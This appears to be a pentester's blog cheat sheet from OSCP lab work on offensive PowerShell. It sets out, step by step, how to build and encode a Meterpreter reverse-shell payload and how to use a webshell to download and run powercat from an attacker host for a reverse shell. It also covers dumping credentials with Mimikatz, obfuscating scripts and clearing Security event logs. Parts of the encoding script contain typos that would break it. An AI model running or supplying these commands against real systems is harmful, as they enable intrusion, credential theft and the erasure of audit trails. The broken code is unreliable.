 During the process of working thru my OSCP labs I've been doing a ton of work
with Windows Powershell from the perspective of a security auditor/pentester.
Worked correctly, like almost anything it can be utilized into a valuable tool
when compromising a network/machine.

Shelling the System

Using PowerShell to Launch Meterpreter from Memory
You'll need:
Metasploit 4.5+
PowerShell x86 with 32 bit Meterpreter payloads
encodedMeterpreter.ps1 script found below

On Attack Box (making payload, using powershell to encode a runable string)

	  ./msfvenom -p windows/meterpreter/reverse_https -f psh -a x86 LHOST:1.1.1.1
    LPORT:4444 > audit.ps1

    mv audit.ps1 <same folder as encodedMeterpreter.ps1>

Launch PowerShell x86

    > powershell.exe -executionpolicy bypass encodedMeterpreter.ps1

    cp encoded string

Start Listener (use your desired payload, then load handler over it for proper use)

    ./msfconsole

    use windows/meterpreter/reverse_https

    handler -H 10.10.1.1 -P 4444 -p windows/meterpreter/reverse_https

On Target Windows Machine (need some kind of ftp webshell delivered cmdasp.aspx)

    > powershell.exe -noexit -encodedCommand <paste encoded string output from
    encodedMeterpreter.ps1>


encodedMeterpreter.ps1 Script:

    # Get Contents of Scripts
    $contents - Get-Content audit.ps1

    # Compress Script
    $ms = New-Object IO.MemoryStream
    $action = [IO.Compression.CompressionMode]::Compress
    $cs = New-Object IO.Compression.DeflateStream ($ms,$action)
    $sw = New-Object IO.StreamWriter ($cs, [Text.Encoding]::ASCII)
    $contents | ForEach-Object {$sw.WriteLine($_)}
    $sw.Close()

    # Base64 Encode Stream
    $code = [Convert]::ToBase64String{$ms.ToArray()}
    $command = "Invoke-Expression '$(New-Object IO.StreamReader ('$(New-Object IO.    Compression.DeflateStream ('$(New-     Object IO.MemoryStream
    ((,'$([Convert]::FromBase64String('"$code'")))),
    [IO.Compression.CompressionMode]::Decompress)),
    [Text.Encoding]::ASCII)).ReadToEnd();"

    # Invoke-Expression $command
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)

    # Write to Standard Out
    Write-Host $encodedCommand



Cheat Sheet

PowerShell One Liner Reverse-Shelling (in your webshell cmdasp.aspx)

    nc -lvn -p 4444


Or you can use PowerCat.ps1 script hosted and get your shell that way.

Host your powercat files

   	python -m SimpleHTTPServer 8080

Use your cmdasp.aspx webshell to force download and execution of powercat.ps1
& get your reverse shell

   	powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString
   	('http://10.10.10.1/powercat.ps1'));powercat -c 10.10.10.1 -p 4444 -ep"


So Once you've attained your shell you want the ability to get credentials and
escalate priviledges.  The quick and easy way to do this, while maintaining
obfuscation is to use Mimikatz & Invoke-Obfuscation from PowerSploit/Empire.
Using one of the methods we covered above get the Invoke-Mimikatz.ps1 & the Invoke-Obfuscation.psd1
suite uploaded.  Now we want to use PowerShell to import those modules and execute.
This is the easiest way and often with windows 10 the only way that will work.
Using PowerCat's Reverse shell, and running both the Import-Module & execute command
inline, NOT SEPERATE!  Like so:

   	powershell Import-Module .\Invoke-Mimikatz.ps1; Invoke-Mimikatz -DumpCreds

   	powershell Import-Module .\Invoke-Obfuscation.psd1; Invoke-obfuscation



PowerShell CHEATS (ALL WITH powershell prefix included)

   	stop-transcript                            Stops Recording
   	get-content <file>                         display file Contents
   	get-help <command> -Examples               shows examples of commands
   	get-command '<string>'                     searchs for cmd string
   	get-service                                displays services
   	get-wmiobject -class win32_service         alternate creds
        $PSVersionTable                            display powershell version
   	-version 2.0                               run powershell 2.0
	get-service | measure-object               returns # of services
   	get-psdrive                                returns list of psdrives
   	get-process | select -expandproperty name  returns only names
   	get-help * -parameter credential           cmdlets that take creds
   	get-wmiobject -list "network [Net.DNS]::GetHostEntry("<ip>")     dns lookup

Clear Security & Application Event Log for Remote Services

   	Get-EventLog -list
   	Clear-EventLog -logname Application, Security -computername SRV01

List Running Services

   	Get-Service | where_object ($_.status -eq "Running")

